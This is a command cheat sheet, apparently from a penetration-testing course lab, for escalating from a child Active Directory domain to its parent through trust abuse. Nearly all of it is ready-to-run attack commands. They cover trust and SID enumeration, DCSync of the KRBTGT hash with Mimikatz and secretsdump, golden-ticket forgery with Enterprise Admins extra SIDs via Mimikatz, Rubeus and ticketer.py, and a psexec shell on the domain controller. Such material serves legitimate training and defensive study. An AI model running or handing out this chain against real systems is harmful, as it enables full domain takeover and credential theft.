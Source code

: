 
# Trust Relationships - Child > Parent Trusts

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Import-Module activedirectory`                              | Used to import the `Active Directory` module. Performed from a Windows-based host. |

| `Get-ADTrust -Filter *`                                      | PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |

| `Get-DomainTrust `                                           | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |

| `Get-DomainTrustMapping`                                     | PowerView tool used to perform a domain trust mapping from a Windows-based host. |

| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL \| select SamAccountName` | PowerView tools used to enumerate users in a target child domain from a Windows-based host. |

| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`          | Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host. |

| `Get-DomainSID`                                              | PowerView tool used to get the SID for a target child domain from a Windows-based host. |

| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" \| select distinguishedname,objectsid` | PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host. |

| `ls \\academy-ea-dc01.inlanefreight.local\c$`                | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host. |

| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses `Mimikatz` to create a `Golden Ticket` from a Windows-based host . |

| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` | Uses `Rubeus` to create a `Golden Ticket` from a Windows-based host. |

| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm`     | Uses `Mimikatz` to perform a DCSync attack from a Windows-based host. |

| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt` | Impacket tool used to perform a DCSync attack from a Linux-based host. |

| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 ` | Impacket tool used to perform a `SID Brute forcing` attack from a Linux-based host. |

| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 \| grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |

| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 \| grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host. |

| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a `Golden Ticket` from a Linux-based host. |

| `export KRB5CCNAME=hacker.ccache`                            | Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host. |

| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
